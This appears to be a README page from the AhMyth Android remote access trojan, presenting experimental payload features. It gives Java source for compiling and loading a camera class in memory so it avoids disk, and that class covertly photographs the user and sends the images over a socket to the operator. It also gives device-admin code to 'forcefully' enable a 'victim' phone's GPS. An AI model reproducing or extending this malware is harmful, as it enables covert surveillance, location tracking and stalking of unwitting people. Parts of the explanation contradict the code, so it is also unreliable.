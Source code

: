 # <div align="center">Experminetal Client Features</div>

## <div align="center">Dynamic "In-Memory at Runtime" Camera Class Generation & Loading</div>

<div align="center">An experimental feature inspired by the Android equivalent of Metasploit Framework's Meterpreter Payload.</div>
<br>

<details>
  <summary>Code</summary>
<br>

- ClassGen.java
> Responsible for Generating and Loading the "CameraManager.java" Class at runtime completely in-memory.
```java
package ahmyth.mine.king.ahmyth;

import com.squareup.javapoet.*;
import org.apache.commons.vfs2.*;
import org.apache.commons.vfs2.provider.ram.RamFileProvider;
import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import java.io.OutputStream;
import java.lang.reflect.Method;
import dalvik.system.DexClassLoader;

public class ClassGen {
    public static void main(String[] args) {
        try {
            // Create an in-memory file system manager with RamFileProvider
            FileSystemManager fsManager = VFS.getManager();
            fsManager.addProvider("ram", new RamFileProvider());

            // Define the path to the in-memory Java source file
            String javaFilePath = "ram:///CameraManager.java";

            String camTempSourceCode = CamTemp.CAMERA_SOURCE_CODE;

            // Create an in-memory file for the Java source code
            FileObject javaFile = fsManager.resolveFile(javaFilePath);
            
            // Write the generated Java source code to the in-memory file
            try (OutputStream os = javaFile.getContent().getOutputStream()) {
                os.write(camTempSourceCode.getBytes());
            }

            // Define the path to the in-memory .dex file
            String dexPath = "ram:///CameraManager.dex";

            // Create an in-memory file for the compiled .dex
            FileObject dexFile = fsManager.resolveFile(dexPath);

            TypeSpec generatedClass = TypeSpec.classBuilder("CameraManager") // Change the class name here
                    .addCode(camTempSourceCode)
                    .build();

            JavaFile javaFileObj = JavaFile.builder("ahmyth.mine.king.ahmyth", generatedClass)
                    .build();

            String javaCode = javaFileObj.toString();

            JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
            int compilationResult = compiler.run(null, null, null, javaFilePath); // Compile the in-memory Java source file

            if (compilationResult == 0) {
                System.out.println("Compilation succeeded.");
            } else {
                System.err.println("Compilation failed.");
                System.exit(compilationResult);
            }

            // Load the compiled .dex from in-memory
            ClassLoader classLoader = new DexClassLoader(
                    dexFile.getURL().toString(),
                    null,
                    null,
                    ClassLoader.getSystemClassLoader()
            );

            executeDynamicallyGeneratedClass(classLoader);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void executeDynamicallyGeneratedClass(ClassLoader classLoader) throws Exception {
        Class<?> generatedClass = classLoader.loadClass("ahmyth.mine.king.ahmyth.CameraManager"); // Change the class name here
        Object generatedInstance = generatedClass.getDeclaredConstructor().newInstance();
    }
}
```
<br>

- CamTemp.java
> "CameraManger" Template file required for class file generation.
```java
package ahmyth.mine.king.ahmyth;

public class CamTemp {
    public static final String CAMERA_SOURCE_CODE =
            "package ahmyth.mine.king.ahmyth;\n" +
            "import android.content.Context;\n" +
            "import android.content.pm.PackageManager;\n" +
            "import android.graphics.Bitmap;\n" +
            "import android.graphics.BitmapFactory;\n" +
            "import android.graphics.SurfaceTexture;\n" +
            "import android.hardware.Camera;\n" +
            "import android.hardware.Camera.PictureCallback;\n" +
            "import android.hardware.Camera.Parameters;\n" +
            "import org.json.JSONArray;\n" +
            "import org.json.JSONException;\n" +
            "import org.json.JSONObject;\n" +
            "import java.io.ByteArrayOutputStream;\n" +
            "public class CameraManager {\n" +
            "    private Context context;\n" +
            "    private Camera camera;\n" +
            "    public CameraManager(Context context) {\n" +
            "        this.context = context;\n" +
            "    }\n" +
            "    public void startUp(int cameraID) {\n" +
            "        camera = Camera.open(cameraID);\n" +
            "        Parameters parameters = camera.getParameters();\n" +
            "        camera.setParameters(parameters);\n" +
            "        try {\n" +
            "            camera.setPreviewTexture(new SurfaceTexture(0));\n" +
            "            camera.startPreview();\n" +
            "        } catch (Exception e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        camera.takePicture(null, null, new PictureCallback() {\n" +
            "            @Override\n" +
            "            public void onPictureTaken(byte[] data, Camera camera) {\n" +
            "                releaseCamera();\n" +
            "                sendPhoto(data);\n" +
            "            }\n" +
            "        });\n" +
            "    }\n" +
            "    private void sendPhoto(byte[] data) {\n" +
            "        try {\n" +
            "            Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);\n" +
            "            ByteArrayOutputStream bos = new ByteArrayOutputStream();\n" +
            "            bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos);\n" +
            "            JSONObject object = new JSONObject();\n" +
            "            object.put(\"image\", true);\n" +
            "            object.put(\"buffer\", bos.toByteArray());\n" +
            "            IOSocket.getInstance().getIoSocket().emit(\"x0000ca\", object);\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    private void releaseCamera() {\n" +
            "        if (camera != null) {\n" +
            "            camera.stopPreview();\n" +
            "            camera.release();\n" +
            "            camera = null;\n" +
            "        }\n" +
            "    }\n" +
            "    public JSONObject findCameraList() {\n" +
            "        if (!context.getPackageManager().hasSystemFeature(PackageManager.FEATURE_CAMERA)) {\n" +
            "            return null;\n" +
            "        }\n" +
            "        try {\n" +
            "            JSONObject cameras = new JSONObject();\n" +
            "            JSONArray list = new JSONArray();\n" +
            "            cameras.put(\"camList\", true);\n" +
            "            int numberOfCameras = Camera.getNumberOfCameras();\n" +
            "            for (int i = 0; i < numberOfCameras; i++) {\n" +
            "                Camera.CameraInfo info = new Camera.CameraInfo();\n" +
            "                Camera.getCameraInfo(i, info);\n" +
            "                JSONObject jo = new JSONObject();\n" +
            "                jo.put(\"id\", i);\n" +
            "                if (info.facing == Camera.CameraInfo.CAMERA_FACING_FRONT) {\n" +
            "                    jo.put(\"name\", \"Front\");\n" +
            "                } else if (info.facing == Camera.CameraInfo.CAMERA_FACING_BACK) {\n" +
            "                    jo.put(\"name\", \"Back\");\n" +
            "                } else {\n" +
            "                    jo.put(\"name\", \"Other\");\n" +
            "                }\n" +
            "                list.put(jo);\n" +
            "            }\n" +
            "            cameras.put(\"list\", list);\n" +
            "            return cameras;\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        return null;\n" +
            "    }\n" +
            "}\n" +
            "}";
}
```

</details>

<details>
  <summary>Explanation</summary>
  <br>

The provided code in the dropdown tab below this one, performs all of the following operations listed below, dynamically in memory, meaning that nothing gets written to disk (aka the Android fileSystem)
  
  <br>

## <div align="center"><ins>Generation Phase</div></ins>
1. **In memory:** Creates an in-memory file system manager with the *RamFileProvider*.
2. **In memory:** Defines the path to the in-memory Java source file `("ram:///CameraManager.java")`.
3. **In memory:** Retrieves the source code for the `"CameraManager"` class from `"CamTemp.CAMERA_SOURCE_CODE."`
4. **In memory:** Creates an in-memory file to store the Java source code.
5. **In memory:** Writes the generated Java source code to the in-memory file.

## <div align="center"><ins>Loading Phase</div></ins>
6. **In memory:** Defines the path to the in-memory *.dex* file `("ram:///CameraManager.dex")`.
7. **In memory:** Creates an in-memory file to store the compiled *.dex* file.
8. **In memory:** Defines the structure and content of the `"CameraManager"` class using *JavaPoet*.
9. **In memory:** Converts the JavaPoet representation of the class to a string.
10. **In memory:** Compiles the in-memory Java source code into a .dex file using the *Java Compiler*.
11. **In memory:** Checks the compilation result, and if successful, prints "Compilation succeeded."
12. **In memory:** Loads the compiled .dex file into memory using a *DexClassLoader*.
13. **In memory:** Attempts to create an instance of the dynamically generated `"CameraManager"` class in memory.

**Reiteration:**

In both the Generation and Loading Phases, most actions are performed in memory. The code dynamically generates, compiles, and loads the `"CameraManager"` class along with its source code and compiled *.dex* file, all within the program's memory space. The only actions not performed in memory are related to the file system, where it writes the generated Java source code and reads the compiled *.dex* file.

</details>
<br>

## <div align="center">Device Admin Privileges</div>

This will hopefully give the AhMyth Payload Administrator Privileges for future features.

<details>
  <summary>Code</summary>
  <br>

- DeviceAdmin.java
```java
package ahmyth.mine.king.ahmyth;

import android.app.admin.DeviceAdminReceiver;

import android.app.admin.DevicePolicyManager;

import android.content.ComponentName;

import android.content.Context;

public class DeviceAdmin extends DeviceAdminReceiver {

    static DevicePolicyManager getDPM(Context context) {

        return (DevicePolicyManager)context.getSystemService(Context.DEVICE_POLICY_SERVICE);

    }

    public static ComponentName getComponentName(Context context) {

        return new ComponentName(context.getApplicationContext(), DeviceAdmin.class);

    }

}
```
</details>
<br>
  
## <div align="center">Automatically Enable Victim GPS</div>

This will hopefully allow automatic enabling of the victim device's GPS, Device Administration Privileges are required for this to work, hence the need for the **DeviceAdmin.java** code above.

<details>
  <summary>Code</summary>
  <br>
  
- LocationManager.java
```java
    private void activateGps(Context context) {

        SharedPreferences prefs = PreferenceManager.getDefaultSharedPreferences(context);

        if (!prefs.getBoolean("allow_location_modechange", false))

            return;

        if (!DeviceAdmin.getDPM(context).isAdminActive(DeviceAdmin.getComponentName(context)))

            return;

        if (!DeviceAdmin.getDPM(context).isDeviceOwnerApp(context.getApplicationContext().getPackageName()))

            return;

        DeviceAdmin.getDPM(context).setSecureSetting(

                DeviceAdmin.getComponentName(context),

                Settings.Secure.LOCATION_MODE,

                Integer.toString(Settings.Secure.LOCATION_MODE_HIGH_ACCURACY)

        );

        Log.d("Done", "Forcefully enabled GPS");

    }

    private void getLocation(Context context) throws SecurityException {

        activateGps(context);

        LocationManager locationManager = (LocationManager) context.getApplicationContext().getSystemService(Context.LOCATION_SERVICE);

        locationManager.requestSingleUpdate(LocationManager.GPS_PROVIDER, null);

    }
```
<br>

- Settings.java
```java
        perms.put("allow_location", new String[]{

                Manifest.permission.ACCESS_FINE_LOCATION,

        });

        perms.put("allow_location_modechange", new String[]{

                Manifest.permission.BIND_DEVICE_ADMIN,

        });
```
</details>
